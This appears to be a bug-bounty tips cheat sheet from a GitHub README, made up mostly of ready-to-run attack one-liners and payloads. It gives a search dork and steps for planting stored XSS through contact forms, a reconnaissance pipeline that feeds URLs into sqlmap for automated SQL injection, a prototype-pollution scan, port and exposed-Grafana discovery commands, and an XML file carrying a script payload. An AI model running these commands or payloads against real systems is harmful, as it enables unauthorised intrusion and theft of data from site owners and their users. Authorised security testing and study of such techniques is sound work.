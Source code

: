 # Tips 

------
### Easy Stored XSS & HTML Injection 

* Payload
```
site:target.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form" 

```
* Fill the form with an HTML Payload in the First Name and with your XSSHunter Payload in Message and send the form

* Wait for a message in your mail with executed Html Payload or your XSSHunter alert for Stored XSS 

----


#### SQLi 

```
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```
-----

#### ProtoType Pollution
```
subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```
------

#### Naabu
```
naabu -l /disk/output/example.com/host.txt  -tp 1000 -sa | httpx -retries 4 -timeout 10 -title -ip

```
--------
[https://bugbountyguide.org/index.php/2022/11/26/8-best-recon-technique-for-active-subdomain-enumeration/](https://bugbountyguide.org/index.php/2022/11/26/8-best-recon-technique-for-active-subdomain-enumeration/)

```
uncover -shodan 'http.component:"Grafana"' -censys 'services.software.product=`Grafana`' -fofa 'app="Grafana"' -quake 'Grafana' -hunter 'Grafana' -zoomeye 'app:"Grafana"' -netlas 'Grafana'
``` 

----------
### XSS via the XML file

```
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```


---------------------
